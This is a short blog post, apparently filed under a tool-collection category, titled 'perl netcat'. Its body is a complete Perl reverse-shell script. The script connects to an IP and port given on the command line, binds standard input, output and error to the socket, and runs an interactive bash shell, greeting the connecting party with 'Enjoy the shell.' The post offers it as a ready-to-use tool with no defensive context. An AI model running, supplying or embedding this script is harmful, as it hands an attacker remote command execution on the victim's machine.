 title: "perl netcat"
date: 2013-12-17 16:01:52
tags:
id: 446
comment: false
categories:
  - 工具收集
---

<pre class="brush:perl">#!/usr/bin/perl -w 
# 
use strict; 
use Socket; 
use IO::Handle; 
if($#ARGV+1 != 2){ 
print "$#ARGV $0 Remote_IP Remote_Port \n"; 
exit 1; 
} 
my $remote_ip = $ARGV[0]; 
my $remote_port = $ARGV[1]; 
my $proto = getprotobyname("tcp"); 
my $pack_addr = sockaddr_in($remote_port, inet_aton($remote_ip)); 
my $shell = '/bin/bash -i'; 
socket(SOCK, AF_INET, SOCK_STREAM, $proto); 
STDOUT-&gt;autoflush(1); 
SOCK-&gt;autoflush(1); 
connect(SOCK,$pack_addr) or die "can not connect:$!"; 
open STDIN, "&lt;&amp;SOCK"; 
open STDOUT, "&gt;&amp;SOCK"; 
open STDERR, "&gt;&amp;SOCK"; 
print "Enjoy the shell.\n"; 
system($shell); 
close SOCK; 
exit 0;</pre>